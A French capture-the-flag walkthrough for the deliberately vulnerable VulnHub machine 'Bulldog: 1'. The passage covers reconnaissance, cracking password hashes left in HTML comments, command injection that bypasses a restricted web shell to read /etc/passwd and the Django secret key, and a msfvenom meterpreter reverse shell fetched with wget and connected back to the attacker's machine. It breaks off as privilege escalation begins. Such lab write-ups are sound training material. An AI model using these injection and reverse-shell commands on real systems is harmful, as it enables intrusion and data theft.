







# Bulldog: 1

[Bulldog: 1](https://www.vulnhub.com/entry/bulldog-1,211/) est une machine virtuelle vulnérable, conçue par [le chercheur en sécurité Nick Frichette](https://frichetten.com/) et publiée sur VulnHub au mois d'août 2017. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. À l'heure où ces lignes sont écrites (février 2018), il s'agit de la seule VM de la série Bulldog, mais il semblerait que notre cher Nick [nous concocte un deuxième challenge](https://github.com/Frichetten/Bulldog-2-The-Reckoning) et cette fois-ci, en Node.js. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Synopsis

_Bulldog Industries_ est le leader mondial de la vente de photographies haute résolution de [bulldogs anglais](https://fr.wikipedia.org/wiki/Bulldog_anglais). À la suite d'une faille de sécurité résultant en un présumé vol de données bancaires, l'entreprise (par l'intermédiaire de son PDG) a déclaré dans un communiqué qu'elle suspendait toutes ses opérations jusqu'à nouvel ordre. Le but du jeu consiste donc à enquêter sur cette VM Bulldog, compromise par
l'odieux gang des [bergers allemands](https://fr.wikipedia.org/wiki/Berger_allemand) _German Shepherd Hack Team_. 

## Recherche manuelle d'informations

L'adresse IP de la VM Bulldog nous est gracieusement fournie à l'écran d'ouverture de session : 192.168.56.102.

Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi possible de se connecter à distance avec SSH au serveur Bulldog, mais sur un port non-standard : 23 au lieu de 22 ; deux serveurs Web WSGIServer 0.1 sont par ailleurs installés, respectivement sur les ports 80 et 8080 : sûrement les sites vitrines de _Bulldog Industries_.

```console
root@blinils:~# nmap -sT -sV -A 192.168.56.102

Host is up (0.00076s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|   256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
|_  256 2f:ba:d5:e5:9f:a2:43:e5:3b:24:2c:10:c2:0a:da:66 (EdDSA)
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
MAC Address: 08:00:27:16:1D:5F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.76 ms 192.168.56.102
```

La page d'index est un [message à caractère informatif](https://www.youtube.com/channel/UCELJE7W1o2iuQrTOSQleAsQ), visant à prévenir les clients de _Bulldog Industries_ de l'arrêt temporaire des activités de l'entreprise. Cette mesure radicale a été appliquée à la suite d'un vol présumé de données bancaires, mais aucun détail technique n'est dévoilé sur cette page d'accueil.

Un clic sur le lien vers la notice d'information, et on y apprend, de la plume du PDG Winston Churchy, que tout le personnel technique a été licencié en réponse à ce vol de données. _Nota Bene : le nom du PDG est plutôt bien trouvé car [Winston Churchill](https://fr.wikipedia.org/wiki/Winston_Churchill), le Premier ministre du Royaume-Uni durant la Seconde Guerre mondiale, fut surnommé par l'Union soviétique... [The British Bulldog](https://books.google.fr/books?id=WWMHAQAAQBAJ&pg=PA89&lpg=PA89)._

Du briefing des équipes techniques, notre « ami sincère » ne semble en avoir retenu que des termes abscons : [_clam shell_](https://en.wiktionary.org/wiki/clamshell) au lieu de [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) et [_smelly_](https://en.wiktionary.org/wiki/smelly) [_cow_](https://en.wiktionary.org/wiki/cow) au lieu de la vulnérabilité [_Dirty COW_](https://dirtycow.ninja/). [Traduire les jeux de mots](https://traduirelesjeuxdemots.univ-lille3.fr/fr/) d'une langue à une autre s'avère singulièrement compliqué ; aussi, pour la version francophone, je propose que cette attaque soit l'oeuvre d'un groupuscule de cyberhackers à la solde d'un [géant pétrolier](https://fr.wikipedia.org/wiki/Shell_(entreprise)), et particulièrement friands de [La vache qui rit](https://fr.wikipedia.org/wiki/La_vache_qui_rit) !



## Recherche automatique d'informations

À présent, y a-t-il d'autres répertoires présents sur le site ? Pour le savoir, l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb) va se servir d'une liste pré-établie de répertoires afin de déterminer l'arborescence du site. Il s'agit là d'une [attaque par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking), a contrario d'une [attaque par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consisterait à tester, de manière exhaustive, toutes les combinaisons possibles : aa, ab, ac... zy zz aaa aab... zzy zzz aaaa aaab... et ainsi de suite. DIRB dispose d'un [large panel de dictionnaires](https://github.com/digination/dirbuster-ng/tree/master/wordlists), celui utilisé sera ```common.txt```.

```console
root@blinils:~# dirb http://192.168.56.102 /usr/share/dirb/wordlists/common.txt

--snip--

---- Scanning URL: http://192.168.56.102/ ----
==> DIRECTORY: http://192.168.56.102/admin/
==> DIRECTORY: http://192.168.56.102/dev/
+ http://192.168.56.102/robots.txt (CODE:200|SIZE:1071)

---- Entering directory: http://192.168.56.102/admin/ ----
==> DIRECTORY: http://192.168.56.102/admin/auth/
==> DIRECTORY: http://192.168.56.102/admin/login/
==> DIRECTORY: http://192.168.56.102/admin/logout/

---- Entering directory: http://192.168.56.102/dev/ ----
==> DIRECTORY: http://192.168.56.102/dev/shell/

--snip--
```

Deux nouveaux répertoires ont été trouvés par __DIRB__ : ```dev``` et ```admin```. 
La page ```/admin``` consiste en un formulaire de login vers le panel d'administration de [Django](https://www.djangoproject.com/), un framework Web développé en Python. Les injections SQL et les comptes par défaut (```admin:admin```, ```django:django```, etc.) ayant fait chou blanc, il est temps de passer à l'autre page trouvée par DIRB. Je me permets de retranscrire ci-dessous le contenu de la page ```/dev``` car beaucoup d'indices ont été parsemés par Nick.

tic tac tic tac... à vous de jouer, saurez-vous les retrouver en moins de deux minutes ? top chrono...

```
If you're reading this you're likely a contractor working for Bulldog Industries.
Congratulations! I'm your new boss, Team Lead: Alan Brooke.
The CEO has literally fired the entire dev team and staff.
As a result, we need to hire a bunch of people very quickly.
I'm going to try and give you a crash course on Bulldog Industries website.

How did the previous website get attacked?

An APT exploited a vulnerability in the webserver which gave them a low-privilege shell.
From there they exploited dirty cow to get root on the box.
After that, the entire system was taken over and they defaced the website.
We are still transitioning from the old system to the new one.
In the mean time we are using some files which may be corrupted from the original system.
We haven't had a chance to make sure there were no
lingering traces of the hack so if you find any, send me an email.

How are we preventing future breaches?

At the request of Mr. Churchy, we are removing PHP entirely from the new server.
Additionally we will not be using PHPMyAdmin or any other popular CMS system.
We have been tasked with creating our own.

Design of new system?

The new website will be written entirely in Django (Mr. Churchy requested "high-end tech hipster stuff").
As of right now, SSH is enabled on the system.
This will be turned off soon as we will transition to using Web-Shell, a proprietary shell interface.
This tool is explained at the link below.
Additionally, be aware that we will start using MongoDB, however we haven't fully installed that yet.

Also be aware that we will be implementing a revolutionary
AV system that is being custom made for us by a vendor.
It touts being able to run every minute to detect intrusion and hacking.
Once that's up and running we will install it on the system.

Web-Shell

Who do I talk to to get started?

Team Lead: alan@bulldogindustries.com
Back-up Team Lead: william@bulldogindustries.com

Front End: malik@bulldogindustries.com
Front End: kevin@bulldogindustries.com

Back End: ashley@bulldogindustries.com
Back End: nick@bulldogindustries.com

Database: sarah@bulldogindustries.com
```

... top ! À la lecture du texte ci-dessus, voici les informations que l'on peut supposer / en déduire.

* Alan Brooke est le nouveau _Team Leader_, il faudra sans doute se focaliser sur son compte (peut-être est-il admin ?).
* Dans un souci de transparence, Alan décrit le mode d'attaque de la _German Shepherd Hack Team_ : il s'agit à l'origine d'une vulnérabilité sur le serveur Web qui a conduit à l'obtention d'un shell sans privilèges (avec un compte Unix qui n'est pas root). L'exploit [_Dirty COW_](https://dirtycow.ninja/) a alors été utilisé pour obtenir les droits root. Il faudra probablement reproduire la même technique ou bien s'en inspirer pour arriver à nos fins.
* Le site Web a subi un [_defacement_](https://en.wikipedia.org/wiki/Website_defacement) à la suite de la compromission du serveur ; si les dégâts ne sont plus visibles dorénavant (en ce qui concerne les IHM ; car humainement, c'est une autre histoire...), il en reste néanmoins une trace dans le fichier ```robots.txt```.
* Bien que le serveur soit opérationnel, des opérations de maintenance sont toujours en cours pour basculer sur le nouveau système.
* Il est précisé qu'à des fins pratiques, certains fichiers de l'ancien système corrompu sont toujours présents, et même parfois utilisés. Cette information vient renforcer notre hypothèse précédente : en effet, si des traces/fichiers/outils de l'attaque précédente ont été conservées, cela sera plus simple pour reproduire la technique employée par la _German Shepherd Hack Team_.
* PHP n'est désormais plus le bienvenu sur le serveur, ce qui, a priori, signifie deux choses : que la vulnérabilité exploitée par la _German Shepherd Hack Team_ est sans doute liée à PHP (pourquoi s'en débarrasser sinon ?) et que l'on peut remiser nos [RCE](https://www.exploit-db.com/papers/12885/) et autres _reverse shells_ en PHP dans le placard du [LampSecurity CTF5](/CTF-VulnLabs/lampsecurity-CTF5). De plus, les attaquants ont certainement dû exploiter une vulnérabilité sur PHPMyAdmin, qui est cité dans la phrase suivante.
* Le tout nouveau site Web de _Bulldog Industries_ utilise [Django](https://www.djangoproject.com/), un framework Web développé en Python.
* L'accès en SSH est voué à disparaître, au profit d'un shell propriétaire ```/dev/shell/``` nommé Web-Shell ; même si, pour le moment, les deux accès sont présents.
* Le système de gestion de base de données MongoDB sera utilisé à terme, mais il n'est pas encore installé, ce qui explique pourquoi nmap n'a détecté que les services Web et SSH.
* Un antivirus « révolutionnaire » est en cours d'implémentation sur le serveur, et est censé être exécuté chaque minute 
(via une tâche sous [crontab](https://fr.wikipedia.org/wiki/Cron#crontab) ?).
* Les adresses e-mail du nouveau staff sont désormais connues, et pourront être récoltées à des fins de [phishing](https://fr.wikipedia.org/wiki/Hame%C3%A7onnage).
* Mieux encore, les prénoms de chaque membre du staff peuvent correspondre à des logins, très utiles pour se connecter en SSH ou au panel d'administration Django.

L'accès à ```/dev/shell/``` nous est interdit (« _Please authenticate with the server to use Web-Shell_ »), du moins tant que nous ne nous serons pas authentifiés. À force de tourner en rond, on finit par fouiller dans le code source HTML de chaque page et bingo, on tombe sur le jackpot : des hashs de mots de passe !



```html
<!--Need these password hashes for testing. Django's default is too complex-->
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```

À toi de jouer, [__John The Ripper__](http://openwall.com/john/) !

```console
root@blinils:~# cat hashs_Bulldog.txt
alan:6515229daf8dbdc8b89fed2e60f107433da5f2cb
william:38882f3b81f8f2bc47d9f3119155b05f954892fb
malik:c6f7e34d5d08ba4a40dd5627508ccb55b425e279
kevin:0e6ae9fe8af1cd4192865ac97ebf6bda414218a9
ashley:553d917a396414ab99785694afd51df3a8a8a3e0
nick:ddf45997a7e18a25ad5f5cf222da64814dd060d5
sarah:d8b8dd5e7f000b8dea26ef8428caf38c04466b3e

root@blinils:~# john hashs_Bulldog.txt --format=Raw-SHA1
Using default input encoding: UTF-8
Loaded 7 password hashes with no different salts (Raw-SHA1 [SHA1 128/128 AVX 4x])
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldog          (nick)
bulldoglover     (sarah)
```

Nick est chargé du _back end_ tandis que Sarah s'occupe de la base de données du site. En voilà des logins intéressants !

## Injection de commandes sur le Web-Shell

Les mots de passe trouvés fonctionnent uniquement avec le panel d'administration de [Django](https://www.djangoproject.com/), pas avec SSH. Tant pis ! Les accès obtenus ne sont pas vraiment satisfaisants : aucun des comptes n'a d'accès privilégiés, il n'est donc pas possible d'éditer le site Web. Pour poursuivre ce _walkthrough_, il faudra sans doute trouver une vulnérabilité dans ce Web-Shell.



```console
root@blinils:~# ssh nick@192.168.56.102 -p 23
nick@192.168.56.102's password: 
Permission denied, please try again.
nick@192.168.56.102's password: 
Permission denied, please try again.
nick@192.168.56.102's password: 
nick@192.168.56.102: Permission denied (publickey,password).

root@blinils:~# ssh sarah@192.168.56.102 -p 23
sarah@192.168.56.102's password: 
Permission denied, please try again.
sarah@192.168.56.102's password: 
Permission denied, please try again.
sarah@192.168.56.102's password: 
sarah@192.168.56.102: Permission denied (publickey,password).
```

La session obtenue sur le panel d'administration de Django nous permet d'accéder au Web-Shell.



```
Welcome to Web-Shell! The world's most secure webshell.
Web-Shell will prevent users from running dangerous shell commands.
It does this by limiting the specific commands that can be run.
A list of valid commands can be seen below.
All commands are run on the server itself, so it is very important to
update Web-Shell as soon as possible if a vulnerability is discovered.

ifconfig ls echo pwd cat rm
```

Miam, cela ressemble fortement à [de l'injection de commandes](https://www.owasp.org/index.php/Command_Injection), avec comme contrainte l'utilisation exclusive de programmes censés être inoffensifs, tels que ```cat``` ou ```ifconfig```. Après quelques essais, voici les données qui ont pu être exfiltrées malgré cette protection. 

```console
Command : pwd
/home/django/bulldog

Command : cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
--snip--
bulldogadmin:x:1000:1000:bulldogadmin,,,:/home/bulldogadmin:/bin/bash
django:x:1001:1001:,,,:/home/django:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
```

Preuve qu'une attaque par dictionnaire avec les logins trouvés dans le code source HTML (alan, william, malik...) aurait été inutile : le staff ne dispose pas de comptes nominatifs sur le serveur Unix. En revanche, trois comptes sont particulièrement intéressants car il est possible de s'y connecter en SSH :```bulldogadmin```, ```django``` et... ```root```, bien sûr !

```console
Command : ls -al
total 56
drwxrwxr-x 3 django django  4096 Feb  9 21:59 .
drwxr-xr-x 5 django django  4096 Sep 21 00:45 ..
drwxrwxr-x 4 django django  4096 Aug 24 23:23 bulldog
-rwxr-xrwx 1 django django 40960 Feb  9 21:59 db.sqlite3
-rwxr-xr-x 1 django django   250 Aug 16 23:51 manage.py


Command : ls -al bulldog
total 52
drwxrwxr-x 4 django django 4096 Aug 24 23:23 .
drwxrwxr-x 3 django django 4096 Feb  9 21:59 ..
-rw-r--r-- 1 django django    0 Aug 16 23:51 __init__.py
-rw-r--r-- 1 django django  138 Aug 16 23:55 __init__.pyc
-rw-r--r-- 1 django django 2762 Aug 24 01:23 settings.py
-rw-r--r-- 1 django django 2971 Aug 24 23:23 settings.pyc
drwxrwxr-x 4 django django 4096 Aug 24 00:52 static
drwxrwxr-x 2 django django 4096 Sep 21 00:36 templates
-rw-r--r-- 1 django django 1154 Aug 18 03:11 urls.py
-rw-r--r-- 1 django django 1477 Aug 24 23:23 urls.pyc
-rw-rw-r-- 1 django django  995 Aug 19 05:23 views.py
-rw-rw-r-- 1 django django 1927 Aug 19 05:24 views.pyc
-rw-r--r-- 1 django django  391 Aug 16 23:51 wsgi.py
-rw-r--r-- 1 django django  595 Aug 16 23:55 wsgi.pyc
```

Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification semble n'être réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions du Web-Shell.

```console
Command : id
INVALID COMMAND. I CAUGHT YOU HACKER!

Command : ls; id
INVALID COMMAND. I CAUGHT YOU HACKER! ';' CAN BE USED TO EXECUTE MULTIPLE COMMANDS!!

Command : ls | id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : pwd & id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)
/home/django/bulldog

Command : pwd && id
/home/django/bulldog
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

Command : cat bulldog/settings.py | grep SECRET_KEY
SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
```

À présent, il s'agit d'obtenir un shell sur le serveur !

## Mise en place d'un reverse shell et accès au serveur Bulldog

Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en Python va être créé et déposé sur le serveur Bulldog. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur de l'entreprise (192.168.56.102) et notre propre machine (192.168.56.101), avant d'envoyer un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```



De retour sur le Web-Shell, le _reverse shell_ Python est déposé sur le serveur via [wget](https://www.gnu.org/software/wget/).

```console
Command : ls && wget http://192.168.56.101:8000/shell.py
bulldog
db.sqlite3
manage.py

Command : ls
bulldog
db.sqlite3
manage.py
shell.py
```

Un listener est alors mis en place sur notre machine, afin d'écouter toute connexion entrante sur le port 4444.

```console
root@blinils:~# service postgresql start
root@blinils:~# msfdb start
root@blinils:~# msfconsole

--snip--
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.101
LHOST => 192.168.56.101

msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444
```

De retour une nouvelle fois sur le Web-Shell, le fait de lancer la commande ```ls && python shell.py``` amorce la connexion.

```console 
msf exploit(multi/handler) > [*] Sending stage (50248 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:60400) at 2018-01-01 01:01:01 +0100
[*] Sending stage (50248 bytes) to 192.168.56.102

msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                      Information       Connection
  --  ----  ----                      -----------       ----------
  1         meterpreter python/linux  django @ bulldog  192.168.56.101:4444 -> 192.168.56.102:60402 (192.168.56.102)
```

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : bulldog
OS              : Linux 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 13271 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=1001(django) gid=1001(django) groups=1001(django),27(sudo)

$ python -c 'import pty; pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /root/.bashrc: Permission denied
django@bulldog:/home/django/bulldog$
```

## Élévation de privilèges (root)

Partons à la recherche de fichiers intéressants... le répertoire ```.hiddenadmindirectory``` semble être une bonne piste.

```console
django@bulldog:/home/django/bulldog$ cd /home/bulldogadmin
cd /home/bulldogadmin
django@bulldog:/home/bulldogadmin$ ls -al
ls -al
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 .
drwxr-xr-x 4 root         root         4096 Aug 24 23:16 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24 22:39 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24 22:39 .bashrc
drwx------ 2 bulldogadmin bulldogadmin 4096 Aug 24 22:40 .cache
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .hiddenadmindirectory
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Aug 25 03:18 .nano
-rw-r--r-- 1 bulldogadmin bulldogadmin  655 Aug 24 22:39 .profile
-rw-rw-r-- 1 bulldogadmin bulldogadmin   66 Aug 25 03:18 .selected_editor
-rw-r--r-- 1 bulldogadmin bulldogadmin    0 Aug 24 22:45 .sudo_as_admin_successful
-rw-rw-r-- 1 bulldogadmin bulldogadmin  217 Aug 24 23:20 .wget-hsts

django@bulldog:/home/bulldogadmin$ ls -al .hiddenadmindirectory
ls -al .hiddenadmindirectory
total 24
drwxrwxr-x 2 bulldogadmin bulldogadmin 4096 Sep 21 00:44 .
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21 00:45 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin 8728 Aug 26 03:18 customPermissionApp
-rw-rw-r-- 1 bulldogadmin bulldogadmin  619 Sep 21 00:44 note

django@bulldog:/home/bulldogadmin$ cat .hiddenadmindirectory/note
cat .hiddenadmindirectory/note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not! 

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
```

C'est parfait, car nous sommes connectés en tant que ```django``` sur le serveur, et souhaitons obtenir un accès root. Il semblerait que ce ```customPermissionApp``` soit notre sésame. Puisqu'il s'agit d'un prototype, voyons s'il est tout de même possible de contredire Ashley et de le reverser.

```console
django@bulldog:/home/bulldogadmin$ cd .hiddenadmindirectory
cd .hiddenadmindirectory

django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ file customPermissionApp
<gadmin/.hiddenadmindirectory$ file customPermissionApp
customPermissionApp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c9f2333253302d74eff3da59653f82d28f9eb36f, not stripped

django@bulldog:/home/bulldogadmin/.hiddenadmindirectory$ ./customPermissionApp
